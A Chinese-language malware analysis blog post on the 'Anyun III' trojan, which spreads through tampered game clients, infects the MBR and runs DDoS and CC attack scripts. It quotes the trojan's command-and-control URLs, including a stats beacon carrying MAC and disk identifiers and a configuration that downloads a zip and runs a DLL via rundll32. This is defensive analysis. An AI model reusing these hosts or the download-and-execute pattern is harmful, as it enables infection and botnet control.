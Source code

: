 ```yaml
---
layout: post
title: 暗云Ⅲ木马分析报告
author: wwh
---
```



![]({{ site.baseurl }}/images/anyun/banner.jpg)

## 1.&emsp;基本情况 ##

&emsp;&emsp;近期一款名为“ 暗云”的木马在互联网大规模传播，该恶意程序会通过对正常的“赤月传说”、“传奇霸业”等游戏微端进行修改，伪装成正常的游戏通过各大下载站的下载器等多种传播渠道进行海量推广。当用户下载运行了这些非官方的游戏微端之后，恶意程序便会执行潜伏到用户电脑中，它具有较高的隐蔽性和兼容性，并且拥有正常的数字签名，可躲过部分杀毒软件的查杀。暗云木马目前已知的攻击行为包括感染MBR、占用用户带宽进行DDOS等。另外该恶意程序会在每次重新启动时从云端服务器获取更新信息，可随时自定义攻击行为。


## 2.&emsp;感染情况 ##
&emsp;&emsp;据国家互联网应急中心统计，目前累计感染该恶意程序的主机达160万台，其中99%是我国境内主机，江苏省由于网民数量庞大，感染数量在15万台左右，占有较高的比例。同时研究发现暗云木马的控制端在国外，控制IP数目10个左右，该控制网路已经在国内形成了强大的网络僵尸群，不仅用户的个人隐私信息安全会受到影响，并且一旦利用僵尸网络发起攻击会对互联网网络造成严重影响。

## 3.&emsp;样本分析 ##

### 3.1 &emsp;样本概况 ###


&emsp;&emsp;程序对正常的游戏客户端进行修改，表面上看上去与正常的客户端程序没有任何区别，并且拥有正确的数字签名，程序运行后就是正常的游戏客户端。

![]({{ site.baseurl }}/images/anyun/1.png)


### 3.2 &emsp;主程序加载器分析 ###

&emsp;&emsp;该恶意程序运行时首先会加载自身资源文件，该资源文件是正常的图片末尾添加了一段shellcode

![]({{ site.baseurl }}/images/anyun/2.png)

恶意程序首先调用这段shellcode,这段shellcode是一个头部跟压缩过后的dll组装在一起的，头部完成的功能就是解压这个dll，然后内存加载。

![]({{ site.baseurl }}/images/anyun/3.png)

该DLL文件包含了主要的恶意代码，首先它对用户电脑进行检测，满足下列条件才会从服务端下载感染程序安装到本地。

* 1.安装包文件名格式，必须包含两个下划线和一个点，最后一个段是其推广渠道号

![]({{ site.baseurl }}/images/anyun/4.png)

* 2.通过目录下的ini判断是否是第一次运行，只有第一次运行才会下载

![]({{ site.baseurl }}/images/anyun/5.png)

* 3.通过WMI查询磁盘名称，检测虚拟机

![]({{ site.baseurl }}/images/anyun/6.png)

* 4.检测是否是在网吧运行

![]({{ site.baseurl }}/images/anyun/8.png)
![]({{ site.baseurl }}/images/anyun/7.png)

* 5.检测是否存在杀毒软件

![]({{ site.baseurl }}/images/anyun/9.png)

条件判断合格后，将获取到的信息上传到云端，并从云端拉取配置信息：

```
	http://c2tongji.b5156.com:89/stats.php?m=08-00-**-**-**-**&uid=b42be3fd-****-4338-****-d6fd64eb9576&hid=48DC0EC2&channelid=b108&p=9377_hyaz2a8_b108.exe&tick=26C717C1228272B9AC3A9E392CAD0721&pq=0&p3=0
```

该信息主要包括mac，硬盘序列号，用户id、取到号、文件名等。

拉到的配置信息为：

```
	[Update]
	Version=2
	Url=http://update.njmmy.com:8089/config/LDrvSvc.zip
	CmdLine=rundll32.exe LDrvSvc.dll,RundllInstall Dir=%appdata%\LDrvSvc
```

然后下载LDrvSvc.zip，解压后执行CmdLine,通过rundll32执行LDrvSvc.dll。同时将游戏登录界面展示给用户，不影响游戏的正常功能。LDrvSvc.dll文件也带有白签名。后面的工作交给LDrvSvc.dll去执行


### 3.3 &emsp;LDrvSvc模块分析 ###


&emsp;&emsp;LDrvSvc.dll本身是一个驱动人生的一个DLL，默认就会执行安装服务操作，恶意程序借助它自己的这个特性来实现自启动。

![]({{ site.baseurl }}/images/anyun/svc.png)

服务启动时会进入LDrvSvc.dll的ServiceMain接口，在此之前都是白文件原有的流程，直到ServiceMain中加载同目录下的DtlCrashCatch.dll的时候，DtlCrashCatch.dll是被恶意修改过的文件，并添加了自己的数字签名。此时该模块运行在系统的服务权限下，为下面进行MBR感染提供了条件。该dll与主程序加载器使用同一种方法加载恶意shellcode,提取出该内存加载的dll模块，在DLLMAIN中首先创建一个线程，每隔一段时间就去请求一个地址

```
	URL：http://www.2tf1.com/upcfg.db
```


![]({{ site.baseurl }}/images/anyun/10.png)

获取到远端DB文件的数据之后做一个简单的解密，之后判断开头4字节是否为0xA5A5A5A5，如果是的话执行下面部分的shellcode。

![]({{ site.baseurl }}/images/anyun/11.png)

### 3.4 &emsp;upcfgDB 模块分析 ###

首先会判断自己是否运行在SYSTEM权限，由于是通过服务启动的所以会满足条件

![]({{ site.baseurl }}/images/anyun/12.png)

接下来就是感染MBR的操作，[具体细节参见](http://www.freebuf.com/vuls/57868.html)

![]({{ site.baseurl }}/images/anyun/13.png)

BootKit 启动过程跟之前暗云版本没有什么不同，都是由MBR开始通过int 15中断一步步的hook来跟随系统的引导流程进入系统内核执行，该套代码可兼容xp、vista、win7、win8等主流操作系统，包括64位和32位。

直接在内核以TDI的方式访问网络下载shellcode解密后直接在内核中运行。。且木马自带了dns服务器地址用来解析域名。尝试以APC的方式向应用层指定进程插入该dll文件。Shellcode会遍历进程，当发现以下某一进程时，进行插入，成功后不再尝试其它进程。

![]({{ site.baseurl }}/images/anyun/15.png)


### 3.5 &emsp;PayLoad.dll分析 ###
该模块是主要执行功能命令的模块,首先会每隔一段时间请求以下网址：

	www.acsewle.com:8877/ds/kn.html
通过对该域名进行访问可以发现配置信息，并且存在一个db文件的下载链接。

![]({{ site.baseurl }}/images/anyun/16.png)

之后创建傀儡进程svchost.exe，并将内置有脚本解释器的恶意dll注入执行。然后是不断从网上请求下载lua脚本并解析执行：

```
	http://www.acsewle.com:8877/ld/ndn.db
```

![]({{ site.baseurl }}/images/anyun/18.png)

 通过分析，得知ndn.db的文件结构，大致如下：

```
	struct f_db{
      DWORD fileLen; // lua脚本bytecode文件大小
      DWORD runType; // 运行类型
      char fileName[24]; // lua脚本文件名
      char fileData[fileLen]; // lua脚本bytecode内容}
```


根据文件结构，进而可从ndn.db中提取到多个lua脚本的bytecode。

![]({{ site.baseurl }}/images/anyun/19.png)

分析得知，其使用的lua版本为5.3，是自行更改过虚拟机进行编译。使用普通反编译工具反编译后，只能得到部分可读明文，经过分析统计可知道暗云Ⅲ现有发布的功能大致有以下几类,如图所示：

* 1.用户统计，通过访问cnzz和51.la两个站点统计页面，以便统计参与攻击的机器数及次数。

![]({{ site.baseurl }}/images/anyun/20.png)

* 2.DDOS,直接do、while循环，不停地对目标服务发起访问。

![]({{ site.baseurl }}/images/anyun/21.png)

* 3.CC攻击,随机使用UserAgent来对目标网站发起访问

![]({{ site.baseurl }}/images/anyun/22.png)

## 4.&emsp;防范措施 ##

&emsp;&emsp;根据“暗云Ⅲ”木马程序的传播特性，建议用户近期采取积极的安全防范措施：

* 1.不要选择安装捆绑在下载器中的软件，不要运行来源不明或被安全软件报警的程序，不要下载运行游戏外挂、私服登录器等软件。
* 2.定期在不同的存储介质上备份信息系统业务和个人数据。

&emsp;&emsp;针对已经感染的主机，可使用专杀工具进行清除，目前各大杀毒厂商均可对其进行查杀修复处理。

参考链接：

1. [暗云Ⅲ危害——不仅仅是DDoS: http://tav.qq.com/index/newsDetail/276.html](http://tav.qq.com/index/newsDetail/276.html)
